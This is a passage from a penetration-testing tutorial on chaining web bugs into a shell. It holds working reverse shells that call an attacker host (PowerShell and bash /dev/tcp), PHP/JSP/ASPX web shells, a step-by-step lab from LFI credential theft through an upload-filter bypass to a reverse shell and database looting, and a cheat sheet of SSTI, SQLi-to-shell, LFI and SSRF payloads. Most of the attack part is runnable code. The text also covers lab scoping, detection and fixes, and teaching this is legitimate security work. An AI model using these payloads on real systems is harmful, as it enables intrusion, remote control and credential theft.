powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('10.10.14.7',443);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$sb=(iex $d 2>&1|Out-String);$sb2=$sb+'PS> ';$sr=([Text.Encoding]::ASCII).GetBytes($sb2);$s.Write($sr,0,$sr.Length);$s.Flush()}"
```

When you cannot recall one, **use a generator**: the "Reverse Shell Generator"
(revshells.com) and PayloadsAllTheThings list these. On Kali, `msfvenom` builds
staged payloads:

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=443 -f raw -o rs.php
# -p payload, LHOST/LPORT your listener, -f format, -o output
```

### 9.3 Minimal web shells

```php
<?php system($_GET['c']); ?>                 // PHP, ?c=id
<?php echo shell_exec($_REQUEST['c']); ?>    // survives GET or POST
```

```jsp
<%= Runtime.getRuntime().exec(request.getParameter("c")) %>
```

```aspx
<% Response.Write(new System.Diagnostics.Process(){StartInfo={FileName="cmd",Arguments="/c "+Request["c"],RedirectStandardOutput=true,UseShellExecute=false}}); %>
```

For real engagements, feature-rich web shells (p0wny-shell, b374k, or a Meterpreter
web-delivery) give upload/download and pseudo-interactivity — but a one-liner is
quieter and easier to clean up.

### 9.4 Stabilising a shell into a full TTY

A raw reverse shell is fragile. Upgrade it:

```bash
# On the target shell:
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Then background with Ctrl-Z, and on YOUR box:
stty raw -echo; fg
# Press Enter twice. You now have arrow keys, tab-complete, Ctrl-C safety.
```

If Python is absent, `script /dev/null -c bash` achieves the same. This upgrade is
the difference between a shell that dies the moment you run `su` and one you can
actually work in.

---

## Part 10: The Full Worked Lab — Recon to Shell to Loot

This lab chains four primitives against a deliberately vulnerable app in an
isolated VM (build it from OWASP Juice Shop / DVWA / a HackTheBox "easy" web box —
never a system you do not own). Attacker IP `10.10.14.7`, target
`10.10.10.55`.

### Step 0 — Recon confirms the surface

```bash
nmap -sVC -p- --min-rate 2000 10.10.10.55 -oN nmap.txt
# 22/tcp  open  ssh     OpenSSH 8.2p1
# 80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))

ffuf -u http://10.10.10.55/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -mc 200,301,302 -o ffuf.txt
# /admin        [Status: 301]
# /uploads      [Status: 301]
# /gallery.php  [Status: 200]
```

`ffuf` (Fuzz Faster U Fool) is a content-discovery fuzzer: `-u` URL with the
`FUZZ` keyword marking the injection point, `-w` wordlist, `-mc` match these HTTP
codes, `-o` output file. It reveals `/admin` and a writable-looking `/uploads`.

### Step 1 — LFI leaks admin credentials (file read primitive)

`gallery.php?img=` looks like an include. Confirm and read source with a filter:

```bash
curl 'http://10.10.10.55/gallery.php?img=php://filter/convert.base64-encode/resource=admin/config'
# base64 blob ->
echo 'PD9waHAgJHVzZXI9ImFkbWluIjskcGFzcz0iUyNjcmV0UGFzczkiOw==' | base64 -d
# <?php $user="admin";$pass="S#cretPass9";
```

We now have admin creds — the file-read primitive upgraded into a credential.

### Step 2 — Log in, reach the gated upload (auth boundary crossed)

```bash
curl -c cj.txt -d 'user=admin&pass=S#cretPass9' http://10.10.10.55/admin/login.php
# Set-Cookie: PHPSESSID=...   -> we are admin, /admin/upload.php is now reachable
```

### Step 3 — Bypass the upload filter (write primitive)

The upload accepts only images and checks magic bytes + Content-Type. Build a
polyglot and abuse the double extension:

```bash
printf 'GIF89a;\n<?php system($_GET["c"]); ?>\n' > thumb.gif.php
```

```http
POST /admin/upload.php HTTP/1.1
Host: 10.10.10.55
Cookie: PHPSESSID=...
Content-Type: multipart/form-data; boundary=----x

------x
Content-Disposition: form-data; name="file"; filename="thumb.gif.php"
Content-Type: image/gif

GIF89a;
<?php system($_GET["c"]); ?>
------x--
```

Response: `Uploaded to /uploads/thumb.gif.php`. Confirm execution:

```bash
curl 'http://10.10.10.55/uploads/thumb.gif.php?c=id'
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have **code execution** — the write primitive upgraded into RCE.

### Step 4 — Web shell to reverse shell (interactivity)

Start a listener, then trigger a reverse shell through the web shell (URL-encode
the command):

```bash
sudo nc -lvnp 443
# In another terminal:
curl -G 'http://10.10.10.55/uploads/thumb.gif.php' \
  --data-urlencode "c=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"
```

Listener output:

```text
Connection received on 10.10.10.55 34122
bash: cannot set terminal process group: Inappropriate ioctl for device
www-data@web01:/var/www/html/uploads$
```

Stabilise it:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl-Z
stty raw -echo; fg
export TERM=xterm
```

### Step 5 — Loot and pivot

```bash
www-data@web01:/var/www/html$ cat config.php
# $db_user="webapp"; $db_pass="Db!Pass2024"; $db_host="10.10.10.60";
www-data@web01:/var/www/html$ mysql -h 10.10.10.60 -u webapp -p'Db!Pass2024' -e 'show databases;'
```

The DB host `10.10.10.60` is a *second* internal machine — the web shell became a
pivot point into the internal network. From here you would enumerate for privesc
(next chapters' territory) and document the full chain.



**What to write in the report:** each arrow above is a separate finding with its
own severity, but the *chain* is the headline critical. Show the exact requests,
the `id` output, and a screenshot of the stabilised prompt — never real customer
data.

---

## Part 11: Post-Exploitation From a Web Shell — Stabilise, Enumerate, Pivot

Landing a shell is the middle of the engagement, not the end. As the web-server
user you are usually low-privileged; the value is in what you can now see and
reach. Keep it **in scope** and **non-destructive**.

### 11.1 Situational awareness

```bash
id; hostname; uname -a          # who am I, where am I, what kernel
cat /etc/os-release             # distro + version (privesc research)
sudo -l 2>/dev/null             # can this user sudo anything without a password?
ps aux --sort=-%mem | head      # what services run here
ss -tlnp                        # local listeners = internal attack surface
env; cat /var/www/html/*config* # secrets in env and app config
```

### 11.2 Hunt for credentials and pivots

- App config files (`config.php`, `.env`, `settings.py`, `web.config`) — DB creds,
  API keys, cloud keys.
- `~/.ssh/`, `~/.aws/credentials`, `~/.git-credentials`, mounted secrets.
- `ss -tlnp` and a quick internal sweep for services bound to `127.0.0.1` that were
  invisible from outside — these are exactly what SSRF (Part 7) would have hit, now
  reachable directly.

### 11.3 Cleanliness and scope discipline

- **Do not** run `rm`, kill processes, or modify data unless the ROE explicitly
  permits it.
- Remove the web shell (or note its exact path for the client to remove) once you
  have a reverse shell, so you do not leave an unauthenticated backdoor on a
  production host.
- Log every command and timestamp — the client's blue team will match your
  activity against their alerts, and clean records protect you.

---

## Part 12: Real-World Chains and CVEs

These techniques are not academic; they are how major breaches happened.

| Chain / CVE | Primitives chained | Impact |
|-------------|--------------------|--------|
| **Capital One (2019)** | SSRF → AWS IMDS → IAM creds → S3 | 100M+ records; textbook SSRF-to-cloud chain (Part 7) |
| **Log4Shell (CVE-2021-44228)** | Log injection → JNDI lookup → deserialization → RCE | Internet-wide RCE from a single logged string |
| **ProxyShell (Exchange, 2021)** | SSRF (CVE-2021-34473) → priv esc → arbitrary write → webshell | Unauth RCE on Exchange |
| **Drupalgeddon2 (CVE-2018-7600)** | Input → form-render → RCE | Mass web defacement/cryptomining |
| **Confluence OGNL (CVE-2022-26134)** | OGNL injection (SSTI-like) → RCE | Unauth RCE |
| **Zip-slip** | Upload + path traversal in archive entry | Arbitrary write → webshell |
| **PHP `phar://` deser** | Upload "image" + phar wrapper | Deserialization RCE (Part 8) |

The pattern repeats: a "low" primitive (log a string, fetch a URL, upload a file)
becomes catastrophic once chained to a second weakness. Reading disclosed
HackerOne/Bugcrowd reports through this lens — "what primitive, upgraded into
what" — is the fastest way to internalise chaining.

---

## Part 13: Detection & Defense Angle

Every technique above leaves signal and has a concrete fix. This is the section
your report's remediation and the blue team's detection both draw from.

### 13.1 Preventing the bugs

| Vuln | Primary defense |
|------|-----------------|
| File upload | Store uploads **outside the webroot**, serve via a handler; randomise filenames; whitelist by validated content type; **never** execute upload dirs (`php_admin_flag engine off`, no handler mapping); disable `.htaccess` overrides |
| LFI/RFI | Never pass user input to `include`; whitelist a fixed set of pages; `allow_url_include=Off`; disable dangerous wrappers |
| SSTI | Never concatenate user input into template source; pass as data/context; sandbox the engine; use logic-less templates |
| SQLi | Parameterised queries everywhere; least-privilege DB user with **no** `FILE`/`xp_cmdshell`; `secure_file_priv` set |
| SSRF | Default-deny egress; block link-local/RFC1918; enforce IMDSv2; validate + re-resolve host, allowlist destinations |
| XXE | Disable external entities/DTDs in the parser (`disableDTD`, `FEATURE_SECURE_PROCESSING`) |
| Deserialization | Don't deserialize untrusted data; use signed/whitelisted formats; look-ahead deserialization filters |

### 13.2 Detecting the exploitation

- **Uploads:** alert on any write of `.php/.phtml/.jsp/.aspx` into an upload path;
  FIM (file-integrity monitoring) on webroot + upload dirs; scan uploads with YARA
  for `<?php`, `system(`, `eval(`.
- **Web shells:** requests to newly-created files, one obscure parameter driving
  varied commands, high entropy in a "static" directory. Tools: `LOKI`,
  `web-shell-detector`, ModSecurity CRS.
- **LFI/log poisoning:** requests containing `../`, `php://`, `/var/log/`,
  `/etc/passwd`; PHP `include()` of files under `/var/log` is never legitimate.
- **SSRF:** outbound requests from app servers to `169.254.169.254` or RFC1918
  ranges; alert on metadata-endpoint hits at the network layer.
- **Reverse shells:** an outbound TCP connection from `www-data`/`apache` to an
  external IP on an odd port is almost always malicious — baseline egress and
  alert on child processes of the web server (`sh`, `bash`, `nc`, `python`
  spawned by `apache2`).



The single highest-value detection is **"the web server process spawned a shell
or made an outbound connection."** Web servers serve pages; they do not run `bash`
or dial out to the internet. That one behavioural rule catches the tail end of
almost every chain in this chapter.

---

## Final Revision / Summary

- A finding becomes an incident through **chaining**: composing primitives (file
  read, file write, arbitrary request, code execution, credential disclosure)
  until you reach an interactive shell.
- Think in **primitives**, not vuln names. Ask of every bug: "what does this let me
  do, and what does that upgrade into?"
- **File upload → web shell** is the most direct road; defeat extension, MIME,
  magic-byte and storage-location filters, or upload `.htaccess`/`web.config`.
- **LFI → RCE** via `php://filter` source-read, log poisoning, session files, or
  `data://`/RFI when wrappers/`allow_url_include` permit.
- **SSTI** goes from `{{7*7}}=49` to RCE through the language's object model
  (Jinja2, Twig, Freemarker).
- **SQLi** is a write/exec primitive too: `INTO OUTFILE`, `xp_cmdshell`,
  `COPY ... TO PROGRAM`, or `sqlmap --os-shell`.
- **SSRF** pivots into cloud metadata (IAM creds), internal no-auth services
  (Redis→RCE via `gopher://`), and internal apps.
- **XXE** and **deserialization** are two more execution primitives; recognise
  their markers (`file://` entities; `rO0`, `O:`, pickle opcodes).
- **Web shell → reverse shell → stabilised TTY** is the standard interactivity
  ladder; `/dev/tcp` + `nc` + `pty.spawn` are the core moves.
- Stay lawful and in-scope: minimal PoC, no destruction, clean up backdoors, log
  everything.
- Detection collapses to one rule: **the web server should never spawn a shell or
  dial out.**

---

## Cheat Sheet / Quick Reference

**Web shells**

```php
<?php system($_GET['c']); ?>
<?php echo shell_exec($_REQUEST['c']); ?>
```

**Reverse shell + catch**

```bash
sudo nc -lvnp 443
bash -c 'bash -i >& /dev/tcp/ATTACKER/443 0>&1'
python3 -c 'import pty;pty.spawn("/bin/bash")'   # then Ctrl-Z; stty raw -echo; fg
```

**Upload bypasses**

```text
Extensions : .php .php3 .php5 .phtml .pht .phar  |  case PhP  |  shell.php.  |  shell.php%00.jpg
MIME       : Content-Type: image/png (keep .php body)
Magic byte : GIF89a; <?php ... ?>
Config     : .htaccess -> AddType application/x-httpd-php .lol ;  IIS -> web.config
```

**LFI → RCE**

```text
Read src : php://filter/convert.base64-encode/resource=config
Inline   : data://text/plain;base64,<PAYLOAD>
Log pois : UA=<?php system($_GET[c]);?>  then page=/var/log/apache2/access.log&c=id
Sessions : /var/lib/php/sessions/sess_<PHPSESSID>
```

**SSTI**

```text
Detect : {{7*7}} (Jinja2/Twig)  ${7*7} (Freemarker)  <%= 7*7 %> (ERB)
Jinja2 : {{cycler.__init__.__globals__.os.popen('id').read()}}
Twig   : {{['id']|filter('system')}}
```

**SQLi → shell**

```sql
MySQL : ' UNION SELECT '<?php system($_GET[c]);?>',2 INTO OUTFILE '/var/www/html/s.php'-- -
MSSQL : '; EXEC xp_cmdshell 'whoami'; -- -
PgSQL : '; COPY (SELECT '') TO PROGRAM 'id'; -- -
Auto  : sqlmap -r req.txt --os-shell
```

**SSRF**

```text
AWS   : http://169.254.169.254/latest/meta-data/iam/security-credentials/
GCP   : http://metadata.google.internal/computeMetadata/v1/  (Metadata-Flavor: Google)
Bypass: 127.1 / 0x7f000001 / 2130706433 / [::1] / http://exp@169.254.169.254/
Redis : gopher://127.0.0.1:6379/_<url-encoded RESP commands>
```

**Deserialization markers**

```text
Java rO0AB / AC ED 00 05 -> ysoserial | PHP O:/a: -> PHPGGC | .NET -> ysoserial.net | Python \x80 pickle
```

---

## Common Pitfalls

- **Firing RCE outside ROE.** Confirm scope allows PoC code execution before you
  run a shell; sometimes demonstrating write is the required stopping point.
- **Uploading to a non-executable dir.** If the file stores but `?c=id` returns the
  raw source, the directory doesn't execute PHP — pivot to `.htaccess`, LFI, or a
  different sink instead of assuming the bypass failed.
- **Forgetting to URL-encode reverse-shell payloads** in a GET web shell — spaces
  and `&` break the command silently.
- **Working in an unstable `nc` shell.** Ctrl-C kills your listener; upgrade to a
  TTY before you run anything interactive (`su`, `ssh`, editors).
- **IMDSv2 blind spot.** If AWS metadata returns 401, the instance enforces
  IMDSv2 — you need header/method control in the SSRF to `PUT` a token first.
- **Leaving the web shell behind.** An unauthenticated `cmd.php` on a production
  box is a real, exploitable backdoor you created — remove it or hand the exact
  path to the client.
- **Chaining in your head but not in the report.** Each hop is a finding; the chain
  is the impact. Document both, with reproducible requests.

---

## Practice Labs & Resources

**PortSwigger Web Security Academy** (free, browser-based):

- *File upload vulnerabilities* — full track: content-type bypass, `.htaccess`
  upload, polyglot, race condition.
- *Server-side template injection* — detection through RCE across engines.
- *SSRF* — basic, filter bypass, and blind-with-out-of-band tracks.
- *XXE injection* — file read, blind exfil via external DTD, SSRF.
- *Insecure deserialization* — PHP and Java gadget-chain labs (with ysoserial).

**TryHackMe:** *Upload Vulnerabilities*, *File Inclusion*, *SSRF*, *OWASP Top 10*,
*Juicy Details*, *Dav*, *Ignite* (LFI/upload → shell rooms).

**HackTheBox:** any "easy" web box that chains upload/LFI → shell (e.g. the
retired *Beep*, *Networked*, *Bounty* patterns); Starting Point tier for guided
chains.

**OWASP Juice Shop** and **DVWA** — self-hosted, safe to practise every technique
in this chapter (file upload, LFI, SQLi→file, SSTI where added).

**Cloud SSRF:** *flAWS* and *flAWS2* (cloud.security), and CloudGoat's SSRF/IMDS
scenarios for the AWS metadata chain end-to-end.

**Reference collections:** PayloadsAllTheThings (Upload/LFI/SSTI/SSRF/XXE/
Deserialization folders), HackTricks (per-technique pages), and disclosed
HackerOne reports tagged SSRF/SSTI/RCE for real chained writeups.

Work each lab twice: once to get the flag, once to write the exploit chain out as
you would in a client report — request by request, primitive by primitive. That
second pass is what turns technique into methodology.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-web/04-from-web-bug-to-shell-chaining-web-vulns-in-a-pentest), with comments and the latest edits.*
